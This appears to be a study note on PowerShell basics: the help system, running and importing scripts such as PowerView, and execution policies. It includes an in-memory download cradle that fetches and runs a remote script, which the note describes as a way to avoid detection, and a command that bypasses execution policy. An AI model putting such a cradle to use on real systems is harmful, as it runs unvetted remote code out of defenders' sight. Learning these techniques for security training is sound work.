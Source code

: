 in power shell partial help is installed to open full online documentation in browser
`Get-Help Get-Process -Online`

to download and install full help locally 
`Update-Help`

#### Running Powershell scripts

- **powershell ISE** (integrated scripting environment) its a gui toll for writhing, editing and running powershell scripts
- **running a script directly** we can run it like this `> .\PowerView.ps1`
- **Importing Script modules** instead of executing the whole script every time we can load it as a module so all its function become available in our current session 
`Import-Module .\PowerView.ps1`
- to check which module are loaded and what commands they provide
`Get-Module | Select Name, ExportedCommands |fl`

- **Download Cradle (advanced usage)** attackers or admins sometimes load scripts directly into memory without saving them on disk (to avoid detection or for convenience)
```
IEX (New-Object Net.WebClient).DownloadString("http://example.com/PowerView.ps1")
```

#### Execution Policy 

PowerShell controls whether scripts can run and if they need to be signed. It’s **not a true security control**—it mainly stops accidental execution of untrusted scripts.

|Policy|Description|Example / Use Case|
|---|---|---|
|**Restricted**|No scripts can run; only individual commands are allowed. Default for desktops.|Default Windows desktop policy; prevents accidental script execution.|
|**AllSigned**|Scripts can run only if signed by a trusted publisher. Prompts for unknown publishers.|Running enterprise scripts with verified signatures.|
|**RemoteSigned**|Local scripts run without signing; scripts from the internet require a digital signature. Default for Windows servers.|Running downloaded scripts safely while allowing local scripts.|
|**Unrestricted**|All scripts run; warns only for scripts from the internet.|Running any script on non-Windows systems.|
|**Bypass**|No restrictions; scripts run without warnings or prompts.|Temporary testing or lab environments.|
|**Undefined**|No execution policy is set for the scope; defaults to Restricted if all scopes are undefined.|Used when no policy is configured; system falls back to default.|

`Set-ExecutionPolicy Bypass -Scope Process` this will override the policy for a session
This specifies **where the policy applies**. `Process` means it only affects the **current PowerShell session** (memory). Once you close the session, the policy reverts to the previous one.

list the policy present 
```powershell
Get-ExecutionPolicy -List
```

---
---

## windows management instrumentation (WMI)
